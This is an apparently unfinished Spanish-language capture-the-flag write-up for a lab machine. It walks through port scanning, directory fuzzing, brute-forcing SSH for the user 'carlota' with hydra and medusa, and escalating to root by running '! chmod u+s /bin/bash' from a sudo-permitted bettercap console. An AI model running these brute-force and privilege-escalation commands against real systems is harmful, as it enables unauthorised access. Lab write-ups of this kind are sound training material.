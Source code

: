 
> Habilidades: Enumeración, steganografía, escalada de privilegios (linux)


# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://i.imgur.com/NssolyM.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________

### ENUMERAR SERVICIOS
Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://i.imgur.com/6ybGn1A.png)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________

## Http Service

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://i.imgur.com/iz3f6TK.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://i.imgur.com/JTVpkU4.png)

_____________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://i.imgur.com/GEns8Jg.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://i.imgur.com/qsO45ms.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especificar un nombre.
- `-P`: Especificar una lista de palabras.
- `-t4`: Especificar hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![gobuster](https://i.imgur.com/qsO45ms.png)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

¡¡BINGO!! obtuvimos las credenciales de Carlota.

## Escalada de privilegios



# Escalada de privilegios


Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para esto cambiaremos el valor de la variable `$TERM`

~~~ bash
> control Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty size
stty rows 44 columns 184


~~~

***UNDER CONSTRUCTION***


## Sudoers

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando

~~~ bash
sudo -l
~~~

![sudo -l]()

- `-l`: Enumerar los comandos permitidos (o prohibidos) invocables por el usuario en la máquina actual

![exec bettercap with sudo]()

Veamos el panel de ayuda con el comando `help`


## SUID Privilege Escalation

Esta opción (`!`) nos permite ejecutar un comando a nivel de sistema, así que podemos asignar el privilegio SUID a la `bash` para ejecutarla como `root`, para eso, lo haremos con el comando `chmod`, dentro de la consola interactiva de `bettercap` ejecutamos el siguiente comando

~~~ bash
! chmod u+s /bin/bash
~~~


- `-eval`: Ejecutar un comando en la máquina





